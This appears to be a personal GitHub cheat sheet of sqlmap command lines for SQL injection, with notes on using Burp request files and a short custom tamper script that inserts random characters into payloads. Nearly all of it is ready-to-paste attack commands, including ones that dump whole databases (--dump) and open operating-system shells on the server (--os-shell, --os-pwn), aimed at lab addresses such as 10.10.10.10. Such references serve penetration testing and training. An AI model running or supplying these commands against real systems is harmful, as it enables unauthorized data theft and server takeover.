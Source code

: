 # SQLMap

[ sqlmap ]
https://tools.kali.org/vulnerability-analysis/sqlmap

[ + ] SQLMAP AND POST DATA:
--> Intercept HTTP POST request in Burp.
--> touch request.txt
--> nano request.txt
--> paste.
--> Remove each additional \r\n (Carriage Return & Newline Data - usually just an empty space after each header...)
--> sqlmap -r request.txt

[ + ] Optionally:
--> --dbms=mysql (Specify the Database Management System to save a LOT of time with SQLMAP...)
--> --threads=2 (Specify more threads if you wish - I find two to be fine.)
--> --time-sec=10 (In the event of time-based SQLi Queries - make the sleep time to 10 seconds...)
--> --level=2 (Specify the level for SQLMAP - it goes to a maximum of 5 levels.)
--> --risk=2 (Risk goes up to 3 at max.)
--> --technique=T (This will specify for any Time-Based versus a value of 'B' which would be "Boolean Based" heavy stack queries.)
--> --force-ssl (Some modern databases themselves require SSL Protocol.)
--> --dbs (Extract a Database Name)
--> -D <database name> (Found a Database Name? Tell SQLMap which one you're interested in.)

[ + ] All Together for request.txt:
sqlmap -r request.txt
sqlmap -r request.txt --threads=2
sqlmap -r request.txt --threads=2 --time-sec=10
sqlmap -r request.txt --threads=2 --time-sec=10 --level=2
sqlmap -r request.txt --threads=2 --time-sec=10 --level=2 --risk=2
sqlmap -r request.txt --threads=2 --time-sec=10 --level=2 --risk=2 --force-ssl --force-ssl
sqlmap -r request.txt --threads=2 --time-sec=10 --level=2 --risk=2 --force-ssl --force-ssl --dump
sqlmap -r request.txt --threads=2 --time-sec=10 --level=2 --risk=2 --force-ssl --force-ssl --os-shell
sqlmap -r request.txt --threads=2 --time-sec=10 --level=2 --risk=2 --force-ssl --force-ssl --os-pwn

[ + ] On your URL Environment Variable :
sqlmap -u $URL --threads=2 --time-sec=10 --level=2 --risk=2 --technique=T --force-ssl
--> or
sqlmap -u $URL --threads=2 --time-sec=10 --level=2 --risk=2 --technique=B --force-ssl

[ + ] Need to specify the DMBS?
--dbms=<DBMS>
--dbms=mysql
--dbms=mssql
--> etc.

[ + ] Dump all data we get please to the terminal please.
--dump

[ + ] If the DBMS is configured to permit I/O Operations (Specifically Output). - Shell
--os-shell

[ + ] Specify a specific parameter to Test (i.e. I want to test parameter9 rather than parameters1-8 as I know that's where the injection point is already).
-->export URL="http://127.0.0.1:80/superDuperCMS.php?p1=DATA&p2=DATA&p3=DATA&p4=INJECTABLE-POINT
sqlmap -u $URL --threads=2 --risk=2 --level=3 --dbms=<DBMS> -p p4


# SQLMapExamples
A list of sample SQL Map Injection Commands.  SQLMap is a powerful tool for identifying SQL injection vulnerabilities.  However, everytime I use it, I struggle with the parameters.  The following is a list of SQLMap one-liners that I have used in the past and keep here so I can copy and paste and modify the parameters are required.

Reference:
https://github.com/sqlmapproject/sqlmap/wiki/Usage

## SQLMap and BurpSuite
These days, all the cool kids will use a Request file generated from a proxy like BurpSuite to save a bunch of parameter typing.
In burpsuite, when you are viewing a request in the proxy -> intercept tab, you can right click on the request and select "Copy to file" and save the request to a local file.
Next you can point SQLMap to that request file using the -r parameter:
```bash
sqlmap -r request.req --dump --batch
```

This can save you having to dial in all the parameters to setup our SQL injection.

## SQLMap Injection on POST parameter with a PHP Session ID
Here we have simple sql injection test agianst a single POST parameter
```bash
sqlmap -u "http://10.10.10.10/profile.php" --data="name=1234567890" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --delay=0 --timeout=30 --retries=0 --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```

## SQLMap Injection on POST parameter at a particular position using the astrix (*) notation
Here is the same injection attack as above but using the astrix to inject at a predetermined postion for a MySQL database running on a Linux platform:
```bash
sqlmap -u "http://10.10.10.10/profile.php" --data="name=1234567890*" --method="POST" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --delay=0 --timeout=30 --retries=0 --dbms="MySQL" --os=Linux --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```


## SQLMap Injection on POST parameter at a particular position using the astrix (*) notation
Here is a SQL injection attack which has been configured to run through a Proxy (BurpSuite)

```bash
sqlmap -u "http://10.10.10.10/rofile.php" --data="name=1234567890*" --method="POST" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --proxy=http://127.0.0.1:8080 --delay=0 --timeout=30 --retries=0 --dbms="MySQL" --os=Linux --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```

## SQLMap test only 1 parameter "name" and risk 3 level 5 through a proxy connection
Here is a sql injection on a name parameter for a login form at a set position on the name field. Also there is a custom written tamper (that is included in this repository) that will replace <here> with 3 random characters, so that a unique user is created with each SQLMap injection test.
You can  install this tamper simply by coping the file to your /usr/share/sqlmap/tamper folder (on Kali at least)

```bash
sqlmap -u "http://10.10.10.10:80/index.php" --data="name=12345678901*&email=test<here>@test.com&password=test12345" --method="POST" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --proxy=http://127.0.0.1:8080 --delay=0 --timeout=30 --retries=0 -p "name" --dbms="MySQL" --os=Linux --level=5 --risk=3 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N" --tamper=chargen.py
```

**Chergen.py code is below**

## SQLMap test only blind timing based SQL injection techniques
Testing only the timing based attacks using the --technique=T parameter
```
sqlmap -u "http://10.10.10.10/profile.php" --data="name=1234567890*" --method="POST" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --proxy=http://127.0.0.1:8080 --delay=0 --timeout=30 --retries=0 --dbms="MySQL" --os=Linux --level=5 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N" --technique=T
```

## Create a custom SQLMap tamper file
I ran into a scenario today where I wanted to test a SQL create new user page for a SQL injection.
Tampers can be easily edited and replaced here:
```
cd/usr/share/sqlmap/tamper
```
```
sudo cp lowercase.py increment.py
```


```
#!/usr/bin/env python

"""
Copyright (c) 2006-2020 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import re
import random
import string

from lib.core.data import kb
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    replaces <here> with 3 random generated chars - helpful when we need to generate unique entries for user names
    Tested against:
        * Microsoft SQL Server 2005
        * MySQL 4, 5.0 and 5.5
        * Oracle 10g
        * PostgreSQL 8.3, 8.4, 9.0
    Notes:
        * Useful to bypass very weak and bespoke web application firewalls
          that has poorly written permissive regular expressions
    >>> tamper('INSERT')
    'insert'
    """

    retVal = payload
    if payload:
        all_ascii_letters = string.ascii_letters
        random_chars = ''.join(random.choice(all_ascii_letters) for i in range(3))
        retVal = retVal.replace("<here>",random_chars)
    return retVal
```
